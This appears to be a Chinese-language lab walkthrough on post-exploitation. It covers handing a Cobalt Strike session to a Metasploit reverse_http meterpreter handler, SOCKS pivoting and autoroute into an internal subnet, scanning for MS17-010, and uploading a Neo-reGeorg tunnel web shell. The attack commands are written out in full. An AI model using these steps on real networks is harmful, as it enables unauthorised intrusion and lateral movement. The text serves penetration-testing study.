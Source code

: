 #### CS下的会话传给MSF
首先在CS上新建一个监听器，类型为foreign
![](https://img-blog.csdnimg.cn/20210522153656896.png)
然后在msf上执行
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.81.135
set lport 1234
run
```
然后在CS中选中计算机，右键->Spawn，并选择刚刚创建的监听器![](https://img-blog.csdnimg.cn/20210522155120689.png)

### 横向移动
#### 使用cs的socks功能将msf带入内网
打开会话，输入`socks 1234`，点击Tunnel->Proxy Pivots
![](https://img-blog.csdnimg.cn/20210525162649519.png)
在msf中运行
```bash
setg Proxies socks4:192.168.81.135:1234
setg ReverseAllowProxy true      #允许反向代理
```
然后修改`/etc/proxychains.conf`文件
![](https://img-blog.csdnimg.cn/20210525174047808.png)
使用`use auxiliary/scanner/smb/smb_ms17_010`，发现都存在ms17-010
![](https://img-blog.csdnimg.cn/20210525163425549.png)
#### msf 添加路由、挂Socks4a代理
>添加路由的目的是为了让MSF其他模块能访问内网的其他主机，即52网段的攻击流量都通过已渗透的这台目标主机的meterpreter会话来传递
添加socks4a代理的目的是为了让其他软件更方便的访问到内网的其他主机的服务
（添加路由一定要在挂代理之前，因为代理需要用到路由功能）

`run autoroute -s 192.168.52.0/24`
![](https://img-blog.csdnimg.cn/20210525173005996.png)
```bash
use auxiliary/server/socks_proxy   #添加socks4a代理
show options
set version 4a  
set srvport 1234   #设置端口
run
```
![](https://img-blog.csdnimg.cn/20210525173505724.png)
同理需要修改`/etc/proxychains.conf`
使用 `use auxiliary/scanner/portscan/tcp` 或者`proxychains nmap -p 1-1000 -Pn -sT 192.168.52.141`扫描端口(注意一定要加上-Pn和-sT参数)
![](https://img-blog.csdnimg.cn/20210525185734202.png)

#### Neo-reGeorg
[https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)，还可以使用Neo-reGeorg来进行代理socks5
直接`python3 neoreg.py generate -k bmth`生成文件
![](https://img-blog.csdnimg.cn/8df46dc55a7245188d483bda470ef288.png)
然后上传到服务器中，连接`python3 neoreg.py -k bmth -u http://192.168.239.136/yxcms/tunnel.php`
![](https://img-blog.csdnimg.cn/3c717421c7b944a6bc9862c6243b8b95.png)
最后编辑`/etc/proxychains.conf`加入`socks5 127.0.0.1 1080`即可
